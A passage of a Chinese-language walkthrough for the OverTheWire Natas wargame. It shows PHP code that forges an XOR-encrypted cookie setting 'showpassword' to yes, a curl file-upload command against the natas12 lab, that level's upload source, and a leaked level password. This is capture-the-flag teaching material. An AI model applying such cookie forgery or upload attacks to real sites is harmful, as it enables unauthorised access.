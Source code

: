 ```php
    $text = $in;
    $outText = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    // .= 字符串拼接
    $outText .= $text[$i] ^ $key[$i % strlen($key)]; // % 取余会循环key
    }
    return $outText;
}

$newdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
$newcookie = base64_encode(xor_encrypt(json_encode($newdata)));
echo "newcookie: ".$newcookie."\n";

?>
```

## level 12 to 13

natas13: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

开始上传文件了。

先说说如何用curl上传。

之前有form表单时用的都是`-X POST -d "data=test&&submit=1"`,在curl的manual搜索form字样会发现`-F`（`--form`选项），能上传二进制文件并且模仿submit按钮的点击。

下面的命令上传了test.jpg,以及文件名test.jpg

```bash
curl -u natas12:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG \
-F "uploadedfile=@/Users/saul/kali/overthewire/test.jpg" \       
-F 'filename=test.jpg' \    
http://natas12.natas.labs.overthewire.org/index.php \
| htmlq 'body' | bat -l html
```

网页源码：

```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";
    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }
    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    // upload/randomstr.ext
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

```